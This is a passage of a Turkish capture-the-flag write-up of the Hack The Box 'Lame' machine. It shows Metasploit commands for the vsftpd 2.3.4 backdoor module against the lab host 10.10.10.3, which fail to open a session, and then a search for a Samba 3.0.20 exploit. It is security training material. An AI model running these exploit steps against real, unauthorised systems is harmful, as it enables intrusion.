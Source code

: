 Bu açığı msfconsole ile deneyelim. Modülü seçtikten sonra modülün ayarlamamızı istediği ayarları görelim.

<div class="code-window">
<br>
msf6 exploit<span class="highlight">(unix/ftp/vsftpd_234_backdoor)</span> > show options
</div>

<div style="text-align: center;">
  <img src="./assets/images/htb_lame/showoptions.webp" width="1000" height="200">
</div>

Bizden saldırı yapacağımız kurbanın hostunu ve port numarasını girmemizi istiyor. Gerekli değerleri girelim.

<div class="code-window">
<br>
msf6 exploit<span class="highlight">(unix/ftp/vsftpd_234_backdoor)</span> > set RHOSTS 10.10.10.3<br>RHOSTS => 10.10.10.3<br>
msf6 exploit<span class="highlight">(unix/ftp/vsftpd_234_backdoor)</span> > set RPORT 21 <br>RPORT => 21
</div>

Tekrardan Show options diyerek ayarları kontrol edebilirsiniz. Her şey tamamlanınca run diyerek exploiti başlatıyorum. 

<div class="code-window">
<br>
msf6 exploit<span class="highlight">(unix/ftp/vsftpd_234_backdoor)</span> ) > run<br>
[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)<br>
[*] 10.10.10.3:21 - USER: 331 Please specify the password.<br>
[*] Exploit completed, but no session was created.<br>
</div>

Fakat komutun çıktısı bize arka kapının başarıyla tetiklenmediğini gösteriyor. Bu zafiyet sistem üzerinde kapatılmış olabilir. 
Diğer portu sömürmeyi deneyebiliriz. Hatırlarsanız ki tarama sonucunda bir diğer zafiyetli olan servisimiz de Samba 3.0.20di. Bu zafiyeti de msfconsole üzerinde aratabiliriz.

<div class="code-window">
<br>
msf6 > search Samba 3.0.20
</div>

<div style="text-align: center;">
  <img src="./assets/images/htb_lame/sambamodul.webp" width="1000" height="170">
</div>
